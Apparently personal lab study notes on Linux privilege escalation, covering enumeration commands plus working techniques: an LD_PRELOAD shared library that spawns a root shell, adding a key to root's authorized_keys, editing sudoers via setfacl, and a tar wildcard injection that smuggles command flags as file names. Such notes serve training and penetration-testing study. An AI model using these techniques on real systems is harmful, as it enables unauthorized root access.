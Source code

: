 # Permission-based
## Group Memberships
Interesting groups to be part of:
- LXC / LXD
- Docker
- Disk
- ADM
## Capabilities
Grants specific privileges(s) to processes.
### Enumerate Capabilities
```shell-session
$ find $(echo $PATH | tr ':' ' ') -type f -exec getcap {} \;
```
## User Privileges
1. Sudo
2. SUID
3. Windows Token Privileges
### Sudo
Check for sudo abuse.
```shell-session
$ sudo -l
```
### Sudoers
If the file `etc/sudoers` /could be made editable (for example using `setfacl`, add sudo privileges directly and `sudo su` to get root.
```bash
setfacl -m u:$USER:$perm /etc/sudoers
```
if `setfacl` can be run as sudo from low_priv user.
## Writeable Files/Directories
```shell-session
$ find / -path /proc -prune -o -type <f/d> -perm -o+w 2>/dev/null
```
## SSH Keys
If we have read/write access on **`.ssh`**  directory, we can get/create SSH connection.

Generate public-private key and paste the public in server
```bash
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
# [[Databases]]
# Environment Variables
## `env_keep+=LD_PRELOAD`
If we can run any one command as root with this environment variable, we can load our own malicious shared library here.
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```shell-session
$ gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
$ sudo LD_PRELOAD=exploit.so <COMMAND>
```

# Information Gathering
## OS Release
```shell-session
$ cat /etc/os-release
```
## System Path
```shell-session
$ echo $PATH
```
## Environment Variables
```shell-session
$ env
```
## Environment
```shell-session
$ uname -a
$ lscpu
$ lsblk
$ cat /etc/shells
$ cat /etc/fstab
$ route

$ cat `/etc/resolv.conf`                  # Private DNS?
```
## Installed Applications
```shell-session
$ apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
$ sudo -V
```
## Hidden Files/Directories
```shell-session
$ find / -type <f/d> -name ".*" -ls 2>/dev/null
```
## History Files
```shell-session
$ find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
```
## Temporary Files
```shell-session
$ ls -l /tmp /var/tmp /dev/shm
```
## Configuration Files
```shell-session
$ find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```
## SetUID/SetGID
```shell-session
$ find / -user root -perm -<4/6>000 -exec ls -ldb {} \; 2>/dev/null
```
## Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# Service-based
## Logrotate
## LXD
## Docker
## Cron
1. **`/etc/crontab`**
2. **`/etc/cron.d`**
3. **`/etc/cron.daily/`**
4. **`/var/spool/cron/crontabs/root`**
# Wildcard Abuse
When certain applications are run with wildcards, they can be abused:
Example:
```c
# cron job
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
```shell-session
$ echo 'echo "<user> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
$ echo "" > "--checkpoint-action=exec=sh root.sh"
$ echo "" > --checkpoint=1
```
This will replace the wildcard with these files which will act as flags for the `tar` command in the cron job.

# Hardening Services
Look out for system defenses such as:
- [Exec Shield](https://en.wikipedia.org/wiki/Exec_Shield)
- [iptables](https://linux.die.net/man/8/iptables)
- [AppArmor](https://apparmor.net/)
- [SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux)
- [Fail2ban](https://github.com/fail2ban/fail2ban)
- [Snort](https://www.snort.org/faq/what-is-snort)
- [Uncomplicated Firewall (ufw)](https://wiki.ubuntu.com/UncomplicatedFirewall)